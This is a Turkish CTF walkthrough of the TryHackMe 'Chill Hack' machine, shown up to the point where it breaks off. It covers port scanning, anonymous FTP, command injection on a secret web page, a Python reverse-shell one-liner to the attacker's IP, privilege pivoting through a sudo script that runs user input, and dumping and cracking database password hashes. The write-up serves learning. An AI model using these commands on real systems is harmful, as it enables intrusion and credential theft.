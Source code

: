## Giriş

Hoşgeldiniz! Bu yazımda Tryhackme’de bulunan <a href="https://tryhackme.com/room/chillhack">Chill Hack</a> makinesinin çözümünü paylaşacağım.

Başlayalım.

---

Öncelikle nmap taraması başlatalım.


```
┌──(root㉿r3tr0)-[~]
└─# nmap -T5 -v -sV  10.10.28.212 
```

nmap çıktısı:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-11 17:30 EST
NSE: Loaded 46 scripts for scanning.
Initiating Ping Scan at 17:30
Scanning 10.10.28.212 [4 ports]
Completed Ping Scan at 17:30, 0.12s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 17:30
Completed Parallel DNS resolution of 1 host. at 17:30, 0.00s elapsed
Initiating SYN Stealth Scan at 17:30
Scanning 10.10.28.212 (10.10.28.212) [1000 ports]
Discovered open port 22/tcp on 10.10.28.212
Discovered open port 80/tcp on 10.10.28.212
Discovered open port 21/tcp on 10.10.28.212
Completed SYN Stealth Scan at 17:30, 1.41s elapsed (1000 total ports)
Initiating Service scan at 17:30
Scanning 3 services on 10.10.28.212 (10.10.28.212)
Completed Service scan at 17:31, 6.22s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.28.212.
Initiating NSE at 17:31
Completed NSE at 17:31, 0.43s elapsed
Initiating NSE at 17:31
Completed NSE at 17:31, 0.38s elapsed
Nmap scan report for 10.10.28.212 (10.10.28.212)
Host is up (0.096s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.82 seconds
           Raw packets sent: 1004 (44.152KB) | Rcvd: 1001 (40.040KB)
```                    

ftp servisine anonymous olarak girmeyi deneyelim.

```                   
┌──(root㉿r3tr0)-[~]
└─# ftp 10.10.28.212        
Connected to 10.10.28.212.
220 (vsFTPd 3.0.3)
Name (10.10.28.212:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||10060|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        115          4096 Oct 03  2020 .
drwxr-xr-x    2 0        115          4096 Oct 03  2020 ..
-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
229 Entering Extended Passive Mode (|||57821|)
150 Opening BINARY mode data connection for note.txt (90 bytes).
100% |****************************************************************|    90       58.35 KiB/s    00:00 ETA
226 Transfer complete.
90 bytes received in 00:00 (0.94 KiB/s)
ftp> exit
221 Goodbye.
```         

note.txt dosyası buluyorum ve indirip içeriğine bakıyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a1.png?raw=true)


Henüz bununla ne yapılacağından tam olarak emin değilim, o yüzden numaralandırmaya devam edelim. İki olası kullanıcı adımız var: Anurodh ve Apaar.

Web sitesini ziyaret edelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a2.png?raw=true)

Siteye gittiğimizde basit bir web sayfası buluyoruz.

Gobuster çalıştırıp gizli dizin arayalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a3.png?raw=true)

secret sayfasını buluyorum ve araştırmak için siteye gidiyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a4.png?raw=true)

Komut çalıştırabileceğimiz bir websitesi bırak kurcalayalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a5.png?raw=true)

[Revshell](https://www.revshells.com/) sitesine giderek reverse shell kodunu kopyalıyorum.

```
export RHOST="10.14.61.127";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a6.png?raw=true)

Makineye giriş yapmayı başardım.

Shellimizi stabil hale getirelim.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Apaar'ın ana dizinindeki local.txt bayrağına erişmeye çalışırken erişim reddedildi. Www-data kullanıcısının ayrıcalıklarını yükseltmemiz gerekecek gibi görünüyor.

```
sudo -l
```
```
ww-data@ubuntu:/home/apaar$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

İlginç, dosyayı cat ile açalım.

```
www-data@ubuntu:/home/apaar$ cat .helpline.sh
#!/bin/bash
echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo
read -p "Enter the person whom you want to talk with: " person
read -p "Hello user! I am $person,  Please enter your message: " msg
$msg 2>/dev/null
echo "Thank you for your precious time!"
```

Bu dosya ile apaar kullanıcısına geçebiliriz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a7.png?raw=true)

user bayrağını alalım.

```
apaar@ubuntu:~$ ls
ls
local.txt
apaar@ubuntu:~$ cat local.txt
cat local.txt
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
```

>{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}

Geri yetki yükseltmek ve root bayrağını almak kaldı.

Makinede biraz gezindikten sonra index.php dosyasının içinde bazı işe yarar bilgiler buluyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a8.png?raw=true)

Bu bilgilerle database'e erişmeye çalışalım.


```
mysql -u root -p'!@m+her00+@db'
```

```
apaar@ubuntu:/var/www/files$ mysql -u root -p'!@m+her00+@db'
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 3
Server version: 5.7.31-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.
Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.
No entry for terminal type "unknown";
using dumb terminal settings.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| webportal          |
+--------------------+
5 rows in set (0.00 sec)
mysql> use webportal;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Database changed
mysql> show tables;
+---------------------+
| Tables_in_webportal |
+---------------------+
| users               |
+---------------------+
1 row in set (0.00 sec)
mysql> select * from users;
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+
2 rows in set (0.00 sec)
```

Anurodh kullanıcısının password hash'ini bulduk.[CrackStation](https://crackstation.net/) sitesine giderek hash'i kıralım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a9.png?raw=true)

Bu bilgilerle bir yere varamadım geri dönüp başka dosyalara göz atmaya karar verdim.

/var/www/files içinde hacker.php dosyası dikkatimi çekti. cat ile açtığımda ipucu buldum.

```
<center>
	<img src = "images/hacker-with-laptop_23-2147985341.jpg"><br>
	<h1 style="background-color:red;">You have reached this far. </h2>
	<h1 style="background-color:black;">Look in the dark! You will find your answer</h1>
</center>
```

Yazılan fotoğrafı indirip baktım:




